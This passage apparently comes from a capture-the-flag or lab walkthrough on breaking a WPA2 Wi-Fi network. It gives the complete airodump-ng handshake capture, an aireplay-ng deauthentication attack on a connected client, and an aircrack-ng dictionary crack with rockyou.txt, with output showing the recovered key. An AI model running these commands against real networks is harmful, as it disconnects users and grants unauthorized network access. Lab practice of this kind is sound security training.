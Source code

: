 8. To capture the 4-way handshake,run:  
`sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2`.  
This targets the network on channel 6 with the specified MAC address (BSSID) and saves traffic data to files starting with "output-file." If a client is connected to the access point, a deauthentication attack can force a handshake capture. Otherwise, the handshake will be captured when a new client connects. Keep the command running until the attack is complete.
it will out put this 
```shell-session
BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 02:00:00:00:00:00  -28 100      631        8    0   6   54   WPA2 CCMP   PSK  MalwareM_AP  

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 02:00:00:00:00:00  02:00:00:00:01:00  -29    1 - 5      0      140
```
{: .nolineno }

**Note** that the `STATION` section shows the device's BSSID (MAC) of `02:00:00:00:01:00` that is connected to the access point.

9. on the second terminal, we will launch the deauthentication attack
   To force a client to reconnect and capture the handshake:
- **Send Deauthentication Packets**: Use **aireplay-ng** to disconnect the client from the Wi-Fi.
- **Force Reconnection**: The client will automatically try to reconnect, triggering the 4-way handshake.
- **Capture the Handshake**: **airodump-ng** captures the handshake during reconnection for cracking attempts.

  can do this with `sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2`
    - `-0` flag indicates that we are using the deauthentication attack,
    - `1` value is the number of deauths to send. 
    -  `-a` indicates the BSSID of the access point 
    - `-c` indicates the BSSID of the client to deauthenticate.
the output is
```shell-session
glitch@wifi:~$ sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2
19:29:37  Waiting for beacon frame (BSSID: 02:00:00:00:00:00) on channel 6
19:29:38  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:01:00] [ 0| 0 ACKs]
```
{: .nolineno }

10. in first terminal we can see that `WPA handshake: 02:00:00:00:00:00` is captured and it will save in our output file 

11. to crack the captured WPA/WPA2 handshake using a dictionary attack :
- go back to second terminal 
- Use the **rockyou.txt** wordlist located in `/home/glitch/`.
- Run the command:
- `sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*.cap`
    -  `-a 2`: WPA/WPA2 attack mode.
    - `-b`: The BSSID of the access point.
    - `-w`: Specifies the wordlist to use for cracking.
    - `output*.cap`: Captured handshake file.
  the output is 
```shell-session
    Aircrack-ng 1.6 

      [00:00:01] 504/513 keys tested (802.69 k/s) 

      Time left: 0 seconds                                      98.25%

                        KEY FOUND! [ fluffy/champ24 ]


      Master Key     : 54 42 17 98 25 7C 66 3C 5D 2A A4 C8 0A AC 37 E6 
                       80 92 EC FE 5E EE C3 AC DB 1D 80 6C 6D 54 D3 5E 
```